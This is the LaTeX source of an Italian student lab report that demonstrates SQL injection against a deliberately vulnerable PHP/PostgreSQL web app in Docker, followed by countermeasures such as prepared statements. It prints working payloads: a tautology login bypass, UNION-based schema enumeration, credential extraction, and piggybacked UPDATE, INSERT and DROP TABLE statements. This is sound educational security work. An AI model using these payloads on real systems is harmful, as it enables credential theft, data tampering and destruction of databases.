
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{geometry}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{caption}
\usepackage{fancyhdr}
\usepackage{float}
\geometry{margin=1in}
\pagestyle{fancy}
\fancyhf{}
\rhead{SQL Injection}
\lhead{Relazione tecnica}
\rfoot{Pagina \thepage}
\lstset{breaklines=true}

\begin{document}

\begin{titlepage}
    \centering
    \vspace*{3cm}
    {\Large\textbf{Relazione Tecnica \\ SQL Injection Attack}}\\[2cm]
    {\large Autore}\\[0.5cm]
    {\large \textit{Piva Andrea : 2015518}}\\
    \vfill
\end{titlepage}
\setcounter{page}{1}


\section*{Obiettivo}
Scopo di questo progetto è dimostrare, tramite un'applicazione web vulnerabile, come sia possibile compromettere un database attraverso un attacco di tipo SQL Injection in-band, sfruttando degli input non controllati.

L’attaccante, agendo senza conoscere la struttura del database, ha progressivamente:

\begin{itemize}
    \item raccolto informazioni sulla struttura del database (vedi sezione 3.1),
    \item esfiltrato dati (vedi sezione 3.2),
    \item modificato il contenuto del database (vedi sezione 3.3),
    \item aggiunto nuovi utenti non autorizzati alla tabella (vedi sezione 3.4),
    \item compromesso la disponibilità eliminando una o più tabelle (vedi sezione 3.5).
\end{itemize}

Tutte e tre le proprietà del modello CIA (Confidenzialità, Integrità, Disponibilità) sono state violate con successo.

\section*{1. Ambiente di test}
\begin{itemize}
    \item \textbf{Web Server:} PHP 7.4
    \item \textbf{Database:} PostgreSQL
    \item \textbf{Ambiente:} Container Docker con docker-compose
    \item \textbf{Pagina vulnerabile:} index.php
\end{itemize}

Il backend PHP genera dinamicamente query SQL non protette, vulnerabili a iniezione.

\section*{2. Tecniche di attacco usate}
\begin{itemize}
    \item \textbf{Tautologia:} per bypassare i controlli login (es: \texttt{' OR '1'='1' --})
    \item \textbf{Commento di fine riga:} per ignorare il resto della query (es: \texttt{--})
    \item \textbf{Query piggybacked:} per concatenare comandi distruttivi come DROP TABLE
\end{itemize}

\section*{3. Fasi dell'attacco}


\subsection*{3.1 Raccolta informazioni}
Tipo di attacco: \textbf{Commento di fine riga}

L’attaccante ha prima testato il numero corretto di colonne presenti nella query originale 
utilizzando ORDER BY:

\begin{lstlisting}
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY n --
...
\end{lstlisting}

sostituendo ogni volta n con un numero crescente (3, 4, 5…).
Quando la query genera un errore, significa che n ha superato il numero effettivo di colonne.
Il numero massimo che non produce errore rappresenta dunque il numero esatto di colonne.

Successivamente, l’attaccante ha identificato la tabella e le colonne:

\begin{lstlisting}
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' --
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='utenti' --
\end{lstlisting}


\begin{figure}[H]
\centering

\includegraphics[width=0.5\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_11.38.21.png}
\caption{Enumerazione delle tabelle}
\end{figure}

\begin{figure}[H]
\centering

\includegraphics[width=0.5\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_11.42.31.png}
\caption{Enumerazione delle colonne}
\end{figure}

\subsection*{3.2 Esfiltrazione dati}
\begin{lstlisting}
' UNION SELECT NULL, username || ':' || password, NULL FROM utenti --
\end{lstlisting}

\begin{figure}[H]
\centering

\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_12.39.31.png}
\caption{Esfiltrazione credenziali}
\end{figure}

\subsection*{3.3 Modifica dati (Integrità)}
\begin{lstlisting}
'; UPDATE utenti SET password='hacked' WHERE username='admin'; --
\end{lstlisting}

\begin{figure}[H]
\centering

\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.02.43.png}

\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.03.35.png}
\caption{Modifica della password dell’utente admin}
\end{figure}

\subsection*{3.4 Inserimento di un nuovo utente}
\begin{lstlisting}
'; INSERT INTO utenti (username, password) VALUES ('hacker', 'hacked'); --
\end{lstlisting}

\begin{figure}[H]
\centering

\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.04.18.png}
\caption{Inserimento utente non autorizzato}
\end{figure}

\subsection*{3.5 Eliminazione della tabella utenti}
\begin{lstlisting}
'; DROP TABLE utenti; --
\end{lstlisting}

\begin{figure}[H]
\centering

\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.05.08.png}
\caption{Tabella utenti eliminata}
\end{figure}

\section*{4. Considerazioni finali}
L’intero attacco è stato eseguito simulando un utente esterno, senza conoscenze preliminari sul database, e con input manuale via form web. Gli effetti sono stati verificati accedendo al DB da terminale tramite il container Docker PostgreSQL.

Il progetto ha dimostrato la compromissione delle tre proprietà del modello CIA:

\begin{itemize}
    \item \textbf{Confidenzialità:} visualizzazione non autorizzata di dati sensibili.
    \item \textbf{Integrità:} alterazione delle password e inserimento di utenti.
    \item \textbf{Disponibilità:} eliminazione completa della tabella utenti.
\end{itemize}

\section*{5. Contromisure}
\begin{itemize}
    \item Uso di query parametrizzate (Prepared Statements)
    \item Validazione e sanitizzazione degli input utente
    \item Limitazione dei privilegi dell’utente SQL usato dal backend
    \item Monitoraggio e logging delle query sospette
\end{itemize}

\end{document}
